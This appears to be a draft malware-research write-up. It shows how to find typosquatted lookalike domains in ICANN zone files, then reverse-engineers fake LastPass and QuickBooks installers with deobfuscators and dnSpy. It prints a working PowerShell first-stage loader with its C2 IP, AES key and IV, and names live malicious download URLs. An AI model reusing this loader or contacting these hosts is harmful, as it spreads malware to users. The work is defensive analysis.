


# How to find fraudulant sites

ICANN is the internet's governing body that controls all domain TLD's, from publicly available ones such as .com, .net, .org, etc. to private ones registered by companies, like .audi, .nike, etc. (TODO:) We can register an account with ICANN [here](https://account.icann.org/registeraccount) and apply for access to certain TLD zone files [here](https://czds.icann.org/zone-requests/all). Once you have selected the TLD's you'd like to search, you should be approved for most within minutes, some might take a day or two. When I first created my account for the purpose of doing this research, I applied for access to every TLD they offered, and over the course of about a week, they all were approved.

If you don't want to go through ICANN, another way to get the same data would be to pay for it through a site like [zonefiles.io](https://zonefiles.io). You can pay for a month of service, download the zone files, and then cancel your membership.

# Searching the zone files

Depending on where you get the zone file, they can be as large as 7+GB gzipped. A trick I found to be able to search through these large zip files without extracting them is running a command like:

```bash
gunzip -c ALLZONES_zone_full.gz | grep "lastpass" > lastpass-domains.txt
gunzip -c ALLZONES_zone_full.gz | grep "quickbooks" > quickbooks-domains.txt
```

Resulting in files like this:

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#lastpass-domains.txt`

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#torbrowser-domains.txt`

Going through these domains, we see that there are three categories the domains fall under.

1. It's a domain that the actual company owns, and they just own it so no one else can have it. These likely will redirect back to the main company website.

2. It's a domain that is parked and goes nowhere, or doesn't resolve to anything.

3. It's a domain that looks identical to the real product site, but isn't owned by the company, and is being used to spread downloads of the product with malware in it.

We can write a simple javascript script that loops through these domains and finds the ones that likely fall into the third category that we're interested in.

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#domain-verification.js`

Running this script through our two domain files shrinks the results down significantly:

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#lastpass-domains-results.txt`

`gist:joshterrill/38891d0eb2c1b15617e4a1abfc15b7a9#torbrowser-domains-results.txt`

# Analyzing LastPass malware

Looking through our filtered list of LastPass domains, we find a domain called https://lastpassword.org. It has a valid certificate, similar to the actual https://lastpass.com website, but a few things become suspicious immediately.

1. The domain https://lastpassword.org doesn't redirect to https://lastpass.com, despite it looking very similar
2. The download link points to a different domain called `https://ozturk-web.com/`
3. The file that is downloaded is a generic name, `https://ozturk-web.com/captcha/appsetup_v14.3.zip`
4. When extracting the initial zip file, the executable installer is >800mb when the real LastPass installer is ~95mb. This could be a sign that the malicious executable file is packed and/or obfuscated with junk code. Another reason why some might create such large executable files for malware is that sites like VirusTotal only allow uploads <650mb. But if we simply take the much smaller zip file and upload it to VirusTotal, we see several hits: https://www.virustotal.com/gui/file/3727544a95fe98f0ebbd0d8138bdae745af64e88cb18eebe7dd04ae0eba49005


Using Process Explorer and TCPView by SysInternals (TODO: add links) we see that the malware spawns a `powershell.exe` process, and then calls out to a command and control server at `45.93.201.114`. This gives us a good place to start looking when we disassemble the executabele.




Loading the exe as a Microsoft .NET Assembly in IDA Pro, we see 0 imports, 1 obfuscated export, a crazy looking function graph, and only a few readable strings that indicate that it probably has some anti-debugger capabilities, and it has been packed with *Eziriz's ".NET Reactor"*.


After some Googling, I found a tool called [NETReactorSlayer](https://github.com/SychicBoy/NETReactorSlayer) that can unpack it using the following command: `.\NETReactorSlayer.CLI.exe .\appsetup_v14.3.exe` which gives uhs a new file called `appsetup_v14.3_Slayed.exe` that is only 222kb.


Now that we've unpacked the malware, we can load it into dnSpy (32-bit) and look through the modules for `Process.Start()` which is likely to be responsible for spawning `powershell.exe`. If you're dealing with something else, a safe bet would be to put a breakpoint on any `.Invoke()` methods that you find and stepping through the code until you find what you're looking for. `Process.Start()` was found in the `GForm0` class here:



After setting the breakpoint on that line and running the executable, the breakpoint shows a variables called `fileName` with a value of: `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` and a variable called `texct` with a value of:

```powershell
$ephapseAbluent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('NDUuOTMuMjAxLjExNA=='));
$abluentFlywort = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('L2RvY3MvT3BqSG1CT3JRU3lIV2Y4dHQwTUVncEVEa3M3UUNHLnR4dA=='));
$arctiidHatlike = new-object System.Net.Sockets.TcpClient
$arctiidHatlike.Connect($ephapseAbluent, 80)
$alumnusArctiid = $arctiidHatlike.GetStream();
$arctiidHatlike.SendTimeout = 300000;
$arctiidHatlike.ReceiveTimeout = 300000;
$abluentAlumnus = [System.Text.StringBuilder]::new()
$abluentAlumnus.AppendLine('GET ' + $abluentFlywort);
$abluentAlumnus.AppendLine('Host: ' + $ephapseAbluent);
$abluentAlumnus.AppendLine();
$ephapseAlumnus = [System.Text.Encoding]::ASCII.GetBytes($abluentAlumnus.ToString());
$alumnusArctiid.Write($ephapseAlumnus, 0, $ephapseAlumnus.Length);
$medishAbluent = New-Object System.IO.MemoryStream;
$alumnusArctiid.CopyTo($medishAbluent);
$alumnusArctiid.Dispose();
$arctiidHatlike.Dispose();
$medishAbluent.Position = 0;
$arctiidMiniate = $medishAbluent.ToArray();
$medishAbluent.Dispose();
$medishMiniate = [System.Text.Encoding]::ASCII.GetString($arctiidMiniate).IndexOf('`r`n`r`n')+1;
$hatlikeAlumnus = [System.Text.Encoding]::ASCII.GetString($arctiidMiniate[$medishMiniate..($arctiidMiniate.Length-1)]);
$hatlikeAlumnus = [System.Convert]::FromBase64String($hatlikeAlumnus);
$ephapseFlywort = New-Object System.Security.Cryptography.AesManaged;
$ephapseFlywort.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$ephapseFlywort.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$ephapseFlywort.Key = [System.Convert]::FromBase64String('aJvSOk5kMKPekqrDnZkBL1oUMR7885xdT/JCog+CMHQ=');
$ephapseFlywort.IV = [System.Convert]::FromBase64String('une0AqbEQmDMhGdzlX+yfg==');
$miniatePsi = $ephapseFlywort.CreateDecryptor();
$hatlikeAlumnus = $miniatePsi.TransformFinalBlock($hatlikeAlumnus, 0, $hatlikeAlumnus.Length);
$miniatePsi.Dispose();
$ephapseFlywort.Dispose();
$alumnusPsi = New-Object System.IO.MemoryStream(, $hatlikeAlumnus);
$arctiidFlywort = New-Object System.IO.MemoryStream;
$abluentMiniate = New-Object System.IO.Compression.GZipStream($alumnusPsi, [IO.Compression.CompressionMode]::Decompress);
$abluentMiniate.CopyTo($arctiidFlywort);
$hatlikeAlumnus = $arctiidFlywort.ToArray();
$miniateHatlike = [System.Reflection.Assembly]::Load($hatlikeAlumnus);
$hatlikeAbluent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aGVlZGVyQ2hlbWlzZQ=='));
$alumnusHatlike = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('cHNpQXJjdGlpZA=='));
$dunnageMiniate = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('cHNpSGF0bGlrZQ=='));
$miniateAbluent = $miniateHatlike.GetType($hatlikeAbluent + '.' + $alumnusHatlike);
$dunnageMedish = $miniateAbluent.GetMethod($dunnageMiniate);
$dunnageMedish.Invoke($miniateMedish, (, [string[]] (''))); #($miniateMedish, $miniateMedish);\
```

This looks to be the first stage of a multi-stage payload. If we do some manual decoding of the Base64 strings, we see that the first couple of lines decode to the IP address we saw in TCPView: `45.93.201.114` and a path to a second stage payload at `/docs/OpjHmBOrQSyHWf8tt0MEgpEDks7QCG.txt`.

(TODO:)

# Analyzing Quickbooks malware
(TODO:)

Using the same methods of finding fake malicious sites, a few Quickbooks domains came up that were trying to pass themselves off as being legit, but were serving malicious `Quickbooks.exe` files. In this case, the site that I found was: `http://quickbooks-online.biz`. 

A quick look in Virus Total shows the following:


* Find malware hosted on a quickbooks domain: quickbooks-online.biz which currently is down, but looking for the binaries, I found this other site that is a direct copy of it, distributing a similar quickbooks binary: 
https://surfaceauthority.com/ and https://surfaceauthority.com/downline/

TODO: show both examples in virus total.

Running it through DIE shows that it is obfuscated by Eazfuscator. Using NetSlayer, we can deobfuscate it and open the resulting `Quickbooks_Slayed.exe` file in DNSPY. One thing to notice is the difference in filesize between the original and the slayed versions.


After loading it in dnSpy, there are a few intersting image resources...


And another resource called `CityControl` that is 46,008 bytes. We can save all of these to their own files for further analysis.

Press CTRL+SHIFT+K to Search Assemblies and look for all references to each of the Resource file names and put breakpoints inside the getters, then start the debugger.

The first breakpoint we hit is when the `CityControl` resource is loaded. Stepping over it leads us to this code which loads `CityControl`, and uses a magic string `G2DH5H7R5ER47588857G754` to decrypt the contents of the resource byte by byte and then it loads it into memory.


If we stop the debugger after the decryption has occurred but before `Assembly.Load(cityControl)` is called, we can right-click on the `cityControl` local variable and save it into a new file called  `CityControl-decrypted`. Loading this new file into DIE shows us that this is a dll file protected by Smart Assembly. We can run this through NetSlayer as well, then load it into dnSpy. We see the dll is called `Tigra.dll` and it has a 18,057 byte resource called `{5412f298-bf84-4a62-92cd-0cda7baed9f5}`. Looking through the classes, we find a reference to this resource in `Class3` that loads it into a stream.


* Show in DIE that it's also obfuscated
* Use NetSlayer to deobfuscate it, open in DNSPY, look at resources, appears to be a chess app with a naked woman as a resource
* Resource called CityControl gets loaded into memory and a magic string is used to decode it into a .dll file. Load this .dll file into a disassembler and we see that it's a dll called Tigra dll
* Load tigra.dll into DIE and we see that it is protected by Smart Assembly, which is an obfuscator. When loading in into dnspy, look at resources, there's one called {5412f295-bf84-4a62-92cd-0cda7baed9f5}, if we search through the DLL for that, we come across in a class called `Class3` the reference to that file being loaded into a stream. 
* If we save the reference file and open it in an editor, it looks like it's a base64 file with several different kinds of separators. The base64 decodes to:
  * HPV.Himentater
  * CausalitySource
  * SearchResult
  * Properties.Resource
  * Ver
  * Invalid file header
  * Unsupported file version
  * Unknown index type found

And then a long encoded string (long-str.txt)


```

```

# Conclusion

These are just a couple of examples of how someone can find and research malware in the wild, and these are just two ideas for companies and products to target to search for this malicious software being passed as legit. Some other ideas for products or comapnies to search are: VMWare, ImgBurn, Microsoft Word, ExpressVPN, and Dropbox. If you find anything interesting, feel free to share it!
